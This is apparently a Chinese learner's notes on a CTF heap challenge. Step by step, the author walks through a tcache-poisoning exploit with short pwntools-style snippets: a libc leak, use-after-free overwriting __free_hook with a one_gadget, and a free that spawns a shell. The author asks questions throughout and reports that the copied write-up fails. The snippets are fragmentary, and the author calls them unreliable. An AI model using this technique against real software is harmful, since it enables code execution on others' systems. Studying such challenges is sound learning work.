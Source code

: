  Q : 

```python
libc_addr = u64(r.recvuntil('\x7f')[1:].ljust(8,'\x00')) + 0x7f2b766ab000 -0x7f2b76a96ca0
```

对于这一步，没看太明白哈，为什么不是减去96再减main_arena的偏移从而得到libc基地址

第五步，释放需要控制的指针（进入tcachebins）

```python
take(0x40) #2

dele(2)
```

个人想法：从上面的前置内容： 

```python
在释放大小为0x0-0x400大小的堆的时候，首先会被释放入对应长度tcachebins对应的链表中
```

所以这个堆块2 进入了tcachebins  //不确定？

第六步，利用use after free 修改该指针的fd指针指向__free_hook

```python
edit(2,p64(__free_hook))
```

gdb:

```python
tcachebins
0x50 [  1]: 0x559472e1f680 -> 0x7fb203e8b8e8(__free_hook) <- ...
```

[   1] : 据了解，这个应该是tc_index

前置内容：

```python
只需要覆盖tcache中的next，即将tcache中的next覆盖为我们自己的地址，从而达到任意地址写入  #其实没有理解到
```

第七步，分配两次堆，从而第二个堆就在__free_hook上了

```python
take(0x40)
take(0x40)
```

据了解，这之后，tcachebins 为空了，而且它的 tc_index -> [  -1],这会导致接下来不可以再使用tcachebins，否则程序可能会报错。

Q：这些我都不知道为啥？



第八步，用edit函数使 __free_hook 为 one_gadget

```python
edit(4,p64(one))
```

前置内容：__free_hook 劫持 

此时，hook != NULL,所以在free时会执行它。

第九步，随便free一个堆块从而执行one_gadget -> getshell.

```python
dele(1)
```



说实在，很多地方是没搞太懂的，然后WP抄上去打也报错了，不知道为啥。